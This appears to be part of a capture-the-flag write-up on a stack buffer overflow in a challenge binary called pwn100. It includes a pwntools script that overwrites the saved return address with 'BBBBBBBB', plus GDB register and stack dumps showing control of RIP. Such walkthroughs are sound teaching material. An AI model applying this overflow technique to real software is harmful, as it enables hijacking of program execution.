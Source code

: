 I played around with some of the input parameters, and I eventually found out that the program crashed if you eat something with a cereal flavor that has a long string. Using this crash, I created a Python script that overwrites `RIP` with a bunch of Bs.

```python
#!/usr/bin/env python3
from pwn import *

p = process("./pwn100")
gdb.attach(p, "b *do_main+189\nc")

p.sendline("1")
payload = ""
for x in range(0, 316):
    payload += chr(x % 256)
payload = payload.encode('UTF-8')
payload += b"BBBBBBBB"
p.sendline(payload)

p.sendline("3")
p.interactive()
```

Running this code would produce the following GDB prompt. As you can see, the saved `RIP` value on the stack has been overwritten with a bunch of Bs. This means that we can jump to any function that we want.
```sh
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007ffcd7ad8cf0  →  0x0000000000000000
$rbx   : 0x0
$rcx   : 0x0
$rdx   : 0x64
$rsp   : 0x00007ffcd7ad8d68  →  "BBBBBBBB"
$rbp   : 0x3b3a393837363534 ("456789:;"?)
$rsi   : 0x0
$rdi   : 0x00007ffcd7ad8cf0  →  0x0000000000000000
$rip   : 0x0000000000400a99  →  <do_main+189> ret
$r8    : 0xffffffff
$r9    : 0x9d
$r10   : 0xfffffffffffff28e
$r11   : 0x00007f0b0190ee70  →  <__memset_avx2_unaligned+0> vmovd xmm0, esi
$r12   : 0x0000000000400710  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffcd7ad8d68│+0x0000: "BBBBBBBB"   ← $rsp
0x00007ffcd7ad8d70│+0x0008: 0x00007ffcd7ad8e00  →  0x0000000000000000
0x00007ffcd7ad8d78│+0x0010: 0x0000000100000000
0x00007ffcd7ad8d80│+0x0018: 0x0000000000400ae0  →  <__libc_csu_init+0> push r15
0x00007ffcd7ad8d88│+0x0020: 0x00007f0b017d2d0a  →  <__libc_start_main+234> mov edi, eax
0x00007ffcd7ad8d90│+0x0028: 0x00007ffcd7ad8e78  →  0x00007ffcd7ada464  →  "./pwn100"
0x00007ffcd7ad8d98│+0x0030: 0x0000000100000000
0x00007ffcd7ad8da0│+0x0038: 0x0000000000400a9a  →  <main+0> push rbp
──────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400a91 <do_main+181>    jne    0x400a02 <do_main+38>
     0x400a97 <do_main+187>    nop
     0x400a98 <do_main+188>    leave
```